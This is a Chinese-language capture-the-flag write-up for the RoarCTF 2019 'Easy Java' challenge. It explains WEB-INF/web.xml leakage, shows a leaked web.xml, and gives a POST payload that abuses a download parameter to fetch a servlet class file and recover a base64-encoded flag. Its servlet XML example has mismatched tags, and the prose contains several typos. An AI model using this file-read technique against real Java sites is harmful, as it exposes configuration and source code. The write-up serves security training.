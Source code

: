 ```yaml
---
author: 
  name: Zephyr
title: RoarCTF 2019 Easy Java
date: 2022-7-18 17:03:11
permalink: /pages/2e1547494524d1cc
tags: 
  - buuctf
  - web
  - Java
  - WEB-INF/web.xml
---
```


# RoarCTF 2019 Easy Java

## 题目分析

首先看一下题目：

![RoarCTF_2019_Easy_Java1](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/RoarCTF_2019_Easy_Java1.png)

尝试SQL注入许多次结果都如下：

![RoarCTF_2019_Easy_Java2](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/RoarCTF_2019_Easy_Java2.png)

点击主页help如下：

![RoarCTF_2019_Easy_Java3](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/RoarCTF_2019_Easy_Java3.png)

改为POST方式发现可以下载文件，并且参数可控，可能存在文件下载漏洞

![RoarCTF_2019_Easy_Java4](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/RoarCTF_2019_Easy_Java4.png)

尝试利用`WEB-INF/web.xml`泄露

## WEB-INF/web.xml泄露

### 背景

WEB-INF/web.xml泄露是JAVA的WEB应用的安全目录。如果想在页面中直接访问其中的文件，必须通过web.xml文件对要访问的文件进行相应映射才能访问

WEB-INF主要包含以下文件或目录：

- `/WEB-INF/web.xml`: Web应用程序配置文件，描述了servlet和其他的应用组件配置及命名规则
- `/WEB-INF/classes/`: 换了站点所有的class文件，包括servlet class和非servlet class，他们不能包含在.jar文件中
- `WEB-INF/lib/`：存放了Web应用需要的各种JAR文件，防止仅在这个应用中要求使用的jar文件，如数据库驱动jar文件
- `WEB-INF/src/`：源码目录，按照包名结构防止各个java文件
- `WEB-INF/database.properties`：数据库配置文件

### JavaWeb工程目录结构

```
WebContent                  （站点根目录）
  |---META-INF              （META-INF文件夹）
  |    |---MANIFEST.MF      （MANIFEST.MF配置清单文件）
  |---WEB-INF               （WEB-INF文件夹）
  |    |---web.xml          （站点配置web.xml）
  |    |---lib              （第三方库文件夹）
  |    |   |---*.jar        （程序需要的jar包）
  |    |---classes          （class文件目录）
  |        |---...*.class   （class文件）
  |---<userdir>             （自定义的目录）
  |    |---*.jsp,*js,*.css  （自定义的资源文件）
  |---<userfiles>           （自定义的资源文件）
```

### 漏洞成因

通常一些web应用我们会使用多个web服务器搭配使用，解决其中的一个web服务器的性能缺陷以及做均衡负载的有点和完成一些分层结构的安全策略等。在使用这种架构的时候，由于对静态资源的目录或文件的映射配置不当，肯恩恶搞会引发一些安全问题，导致web.xml等文件能够被读取

### 漏洞检测以及利用方法

通过找到web.xml文件，推断class文件的路径，最后直接访问class文件，再通过反编译class文件，得到网站源码

### Servlet访问URL映射配置

由于客户端是通过URL地址访问Web服务器中的自愿，所以Servlet程序若想被外界访问，必须把Servlet程序映射到一个URL地址上，这个工作再web.xml文件中使用<servlet>元素和<servlet-mapping>元素完成。

<servlet>元素以哦那个与注册Servlet，它包含有两个主要的子元素：<servlet-name>和<servlet-class>，分别用于指定Servlet的注册名称和Servlet的对外访问路径。例如：

```java
</servlet>
    <servlet-name>ServletDemo</servlet-name>
    <servlet-class>cn.ServletDemo</servlet-class>
</servlet>
</servlet-mapping>
    </servlet-name>/ServletDemo</servlet-name>
    </url-pattern>/ServletDemo</url-pattern>
</servlet-mapping>
```

## 思路整理

- 可能存在任意文件下载

尝试POST方式下载/WEB-INF/web.xml，下载成功，内容如下

```xml
<?xml version="1.0" encoding="UTF-8"?>
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
         version="4.0">

    <welcome-file-list>
        <welcome-file>Index</welcome-file>
    </welcome-file-list>

    <servlet>
        <servlet-name>IndexController</servlet-name>
        <servlet-class>com.wm.ctf.IndexController</servlet-class>
    </servlet>
    <servlet-mapping>
        <servlet-name>IndexController</servlet-name>
        <url-pattern>/Index</url-pattern>
    </servlet-mapping>

    <servlet>
        <servlet-name>LoginController</servlet-name>
        <servlet-class>com.wm.ctf.LoginController</servlet-class>
    </servlet>
    <servlet-mapping>
        <servlet-name>LoginController</servlet-name>
        <url-pattern>/Login</url-pattern>
    </servlet-mapping>

    <servlet>
        <servlet-name>DownloadController</servlet-name>
        <servlet-class>com.wm.ctf.DownloadController</servlet-class>
    </servlet>
    <servlet-mapping>
        <servlet-name>DownloadController</servlet-name>
        <url-pattern>/Download</url-pattern>
    </servlet-mapping>

    <servlet>
        <servlet-name>FlagController</servlet-name>
        <servlet-class>com.wm.ctf.FlagController</servlet-class>
    </servlet>
    <servlet-mapping>
        <servlet-name>FlagController</servlet-name>
        <url-pattern>/Flag</url-pattern>
    </servlet-mapping>

</web-app>
```

发现了flag的文件路径，并且由前置知识可知，通过url访问Servlet的方式是：
找到对应文件名，然后通过这个文件名找到对应的servlet，再通过这个servlet的文件名，获取到其具体的servlet文件。因为这个是类中的文件，所以后缀要加.class

## Payload

所以最终的payload为

```
filename=/WEB-INF/classes/com/wm/ctf/FlagController.class
```

tips:要把com到FlagController前面的`.`改成`/`原本的`.`是类似java里面的文件路径

POST方式发送即可以下载该文件

文件内容为

```java
import java.io.IOException;
import java.io.PrintWriter;
import javax.servlet.ServletException;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
 
@WebServlet(
   name = "FlagController"
)
public class FlagController extends HttpServlet {
 
   String flag = "ZmxhZ3syZDUyZDkyNC00MmZiLTQ2MTAtYWNiZS04ZjVlNDk1OTA4Y2N9Cg==";
 
 
   protected void doGet(HttpServletRequest var1, HttpServletResponse var2) throws ServletException, IOException {
      PrintWriter var3 = var2.getWriter();
      var3.print("<h1>Flag is nearby ~ Come on! ! !</h1>");
   }
}
```

base64解密flag即可